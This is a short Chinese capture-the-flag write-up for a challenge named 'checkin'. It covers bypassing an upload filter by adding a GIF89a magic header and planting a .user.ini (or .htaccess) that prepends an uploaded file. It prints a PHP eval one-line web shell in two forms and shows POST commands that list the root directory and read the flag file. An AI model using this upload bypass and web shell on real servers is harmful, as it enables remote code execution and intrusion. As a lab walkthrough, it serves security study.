 ##  checkin

**考点**：利用`.user.ini`来上传文件

###  wp

首先这个题就是用`.user.ini`或者`.htaccess`来绕过

我们传png文件，看到exif_imagetype:not image!

```
exif_imagetype，就是用来检查图像类型的
```

必须要gif文件，但是我们在文件内容上加个魔法头GIF89a,就可以绕过

我们用后缀为`.user.ini`或者`.htaccess`，发现只要加个魔法头都可以传进去

本来是直接用

```php
<?php
    eval($_post[1]);   
?>
```

但是不行，返回contents有问题，说明对文件内容进行了过滤

我手工FUZZ了一下，`<?`被过滤了，其他都应该没有

然后换了个[一句话木马](https://blog.csdn.net/weixin_39190897/article/details/86772765)

```
<script language='php'>eval($_POST[1]);</script>
```

我们可以传1.png文件进去，文件内容

```
GIF89a
一句话木马
```

再传.user.ini文件

```
文件内容
auto_prepend_file=/var/www/html/upload/....(路径)
auto_append_file=/var/www/html/upload/....(路径)
```

然后用蚁剑连接或者直接访问url，用命令执行

```
POST:1=var_dump(scandir("/"));找路径
然后1=var_dump(system("cat /f*"));
```

如果是.htaccess

只需要把文件内容改一下
